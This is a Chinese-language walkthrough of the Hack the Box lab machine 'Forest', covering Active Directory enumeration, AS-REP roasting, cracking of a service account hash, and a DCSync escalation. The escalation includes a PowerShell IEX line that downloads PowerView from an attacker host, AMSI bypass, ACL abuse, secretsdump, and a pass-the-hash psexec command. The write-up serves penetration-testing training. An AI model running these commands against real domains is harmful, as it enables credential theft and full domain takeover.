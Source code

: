 ```yaml
---
title: Forest
date: 2021-12-24 13:52:39
tags: Hack the Box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2913cb4eedb44306869932340084824e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集

```bash
nmap -sV -sS -Pn -A -p1-65535 10.10.10.161
```

```bash
Nmap scan report for 10.10.10.161
Host is up (0.32s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-21 11:03:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  unknown
49931/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/21%OT=53%CT=1%CU=36900%PV=Y%DS=2%DC=T%G=Y%TM=617148
OS:13%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=I%CI=I%II=I%SS=S%TS
OS:=A)SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-10-21T04:05:16-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-21T11:05:15
|_  start_date: 2021-10-21T07:03:53

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   321.85 ms 10.10.14.1
2   321.83 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3716.43 seconds
```

<!--more-->

我们发现可以进行匿名登录，我们尝试匿名登录SMB服务，看看有哪些有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/e568f2f0f0ef419da569481703bc97f1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
答案是没有，没有什么共享信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/9315d9655d274be9baf1173d824bbf38.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

上面信息收集时发现了ldap服务，那我们尝试使用ldapsearch工具对`namingcontexts`字段进行发掘
![在这里插入图片描述](https://img-blog.csdnimg.cn/5159dbdc249c4274ba73c56d802ba67c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试更深入地挖掘DN信息，并尝试获取域中的用户列表
![在这里插入图片描述](https://img-blog.csdnimg.cn/412eb99806c84827a8d4924b17aab912.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们还可以使用`enum4linux`获取用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/295e9874f8a94b21b77a12fd68e7de09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将搜集的信息保存为一个`anon_ldap.txt`文件，过滤出`svc-alfresco`用户的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/323186c2631f445e8f56396ebc761eef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们拿到账号和用户名后，我们得检查一下是否启用了预认证，这里解释一下什么是预认证

> **在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。**

那我们可以使用`impacket`包中的`GetNPUsers.py`这个脚本去请求TGT，直接获取易受攻击的用户名及对应的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/5284eb6938a448ed9fc2c450536c9ebc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`john`来破解这个hash值，破解的明文值为`s3rvice`
![在这里插入图片描述](https://img-blog.csdnimg.cn/171d16fb086e4306aed46bcfde8464e3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们也可以用hashcat来破解

```bash
hashcat -m 18200 -a 0 -w 3 forest.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac55b719cfc140b1ada3ab3f1ec23de1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为上边我们扫描到主机开放了5985端口，那证明主机开放了WinRM服务

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/391c73ad0f65465dbec84f80162fe866.png)
## 提权
我们使用Bloodhound这个工具查询是否有潜在的提权路径，首先我们得先把客户端`SharpHound.exe`上传到目标主机上，并运行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/df95f275e38340aba9d52b2aa90c838e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa70b145a0143d790b4d8c629a36d7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了方便我们传输，我们在本机上搭建一个SMB服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6dcecf002764ceb89b526cfc469f895.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将压缩包复制到本机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c2108c5892d4762af178e042896411e.png)
在攻击机上启动bloodhound，并将压缩包拖进bloodhound中
![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1aedb210f74238ba29dd65d3cfb738.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后点击最后一个选项，查看可以进行哈希传递的用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d5109e17fd740c08689be66a2ce0c35.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后再点击这个选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/e417b9a4c91442eeb7e5f52dc99ec7be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6899426da41d42139be684f6f99e7772.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到`svc-alfresco`这个用户是属于`service account`这个组的成员，同时它也是`Privileged IT Accounts`的成员，它也是`account operators`的成员。它允许该组的成员创建和修改用户并将其添加到不受保护的组
![在这里插入图片描述](https://img-blog.csdnimg.cn/e2cdb6b465b74640a64b7ea297939ce3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们现在点击`Shortest Paths to High Value Targets`，查看去往高权限目标的路径。该用户具有`GenericAll`的权限和`Exchange Windows`权限组。在`Exchange Windows`权限组具有`WriteDacl`在域的权限。该`WriteDacl`权限使用户能够向对象添加`DACL`（自由访问控制列表）。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6d80a75b47946b2bb2b74041117d941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
**那就意味着：**

 **1. 我们可以将用户添加到Exchange Windows 权限组。
 2. 然后，由于 Exchange 组有WriteDacl权限，我们可以将DCSync权限授予我们创建的用户。**

>  **DCsync是几个权限的集合体，是域渗透中经常会用到的技术，如果普通用户想具有DCsync权限，可以给对象添加以下三条ACE：
>  DS-Replication-Get-Changes，对应GUID为：1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-All，对应GUID为：1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-In-Filtered-Set，对应GUID为：89e95b76-444d-4c62-991a-0facbeda640c**

## DCSync
首先我们先将用户添加到域中
![在这里插入图片描述](https://img-blog.csdnimg.cn/412def70d225418188f892346169b474.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将用户添加到`Exchange Windows`权限组
![在这里插入图片描述](https://img-blog.csdnimg.cn/ead54544e07d4f67bcb1f4d5c4c973d0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看看菜单，我们选择`Bypass-4MSI`，`Bypass-4MSI`命令用于在导入脚本之前规避防御者。接下来，我们可以使用`Add-ObjectACL`和`john`的凭证，并给他`DCSync`权限。
![在这里插入图片描述](https://img-blog.csdnimg.cn/84b58436b0f54790bfdc7e1e5823e29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后输入以下的powershell的代码

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Secpassword = ConvertTo-SecureString 'password1234' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\pyh',$Secpassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pyh -Rights DCSync
```
开启一个小型服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/37f75053912d4977b8ec82cc263da07f.png)
执行完成后，我们使用`secretdumps.py`脚本获取用户名对应的哈希值。这里我们获取到了管理员的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/16f9219409ec4fa78100ba391a0cf942.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们只需要使用`psexec.py`脚本来进行哈希传递攻击，获取到超级管理员权限

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87f2253887984b2f8852806cd45909bb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
